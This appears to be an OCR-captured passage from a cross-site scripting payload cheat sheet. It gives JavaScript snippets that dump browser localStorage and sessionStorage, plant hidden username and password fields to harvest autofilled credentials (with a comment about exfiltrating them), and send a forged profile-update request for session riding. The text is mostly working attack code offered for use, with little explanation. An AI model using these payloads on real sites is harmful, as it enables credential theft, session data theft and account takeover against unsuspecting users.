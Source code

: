 ```javascript
let localStorageData = JSON.stringify(localStorage)

let sessionStorageData = JSON.stringify(sessionStorage)
```

### Autofilled Creds

```javascript
// create the input elements

let usernameField = document.createElement("input")

usernameField.type = "text"

usernameField.name = "username"

usernameField.id = "username"

let passwordField = document.createElement("input")

passwordField.type = "password"

passwordField.name = "password"

passwordField.id = "password"

// append the elements to the body of the page

document.body.appendChild(usernameField)

document.body.appendChild(passwordField)

// exfiltrate as needed (we need to wait for the fields to be filled before exfiltrating the information)

setTimeout(function() {

 console.log("Username:", document.getElementById("username").value)

 console.log("Password:", document.getElementById("password").value)

}, 1000);
```

### Session Riding

```javascript
let xhr = new XMLHttpRequest();

xhr.open('POST','http://localhost/updateprofile',true);

xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');

xhr.send('email=updated@email.com’);
```
